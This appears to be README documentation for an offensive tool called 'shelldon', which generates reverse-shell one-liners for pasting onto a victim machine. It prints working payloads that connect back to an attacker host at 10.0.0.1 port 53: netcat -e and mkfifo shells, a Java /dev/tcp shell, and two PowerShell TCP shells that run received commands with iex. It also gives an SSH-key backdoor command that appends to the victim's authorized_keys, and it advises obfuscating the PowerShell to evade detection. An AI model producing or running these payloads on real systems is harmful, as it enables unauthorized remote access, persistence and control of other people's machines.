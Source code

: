 ## Netcat
```
root@kali:/opt/shelldon# shelldon nc
nc -e /bin/sh 10.0.0.1 53
```
- **Default COMMAND: nc**
- Only works with netcat-traditional

## Netcat --alternate
```
root@kali:/opt/shelldon# shelldon nc -a
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 53 >/tmp/f
```
- **Default COMMAND: nc**
- Used for netcat-openbsd (which is the default installation for most linux servers)

## Java
```
root@kali:/opt/shelldon# shelldon java
r = Runtime.getRuntime()
p = r.exec(["/bin/sh","-c","exec 5<>/dev/tcp/10.0.0.1/53;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
- **No COMMAND funcionality**
- **No --alternate functionality**

## Powershell
```
root@kali:/opt/shelldon# shelldon powershell
powershell.exe -c "$client = New-Object System.Ns.TCPClient('10.0.0.1',53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
- **Default COMMAND: powershell.exe**
- While I could not automate the process, I suggest using Invoke-Obfuscation to obfuscate this.

## Powershell --alternate
```
root@kali:/opt/shelldon# shelldon powershell -a
powershell.exe -c "$sm=(New-Object Net.Sockets.TCPClient('10.0.0.1',53)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}"
```
- **Default COMMAND: powershell.exe**

## SSH
```
root@kali:/opt/shelldon# shelldon ssh
echo 'ssh-rsa XXXXXXXXX root@kali' >> \
```
- **No COMMAND functionality**
- This is not a reverse shell. This command grabs the contents of your `$HOME/.ssh/id_rsa.pub` file and puts it into this convenient open-ended echo command.
- When pasting this command over to your victim, you will need to type in the path for their `~/.ssh/authorized_keys` file. This will allow you to ssh in as the victim with `ssh -i ~/.ssh/id_rsa victim@box.htb`
- **No --alternate functionality**


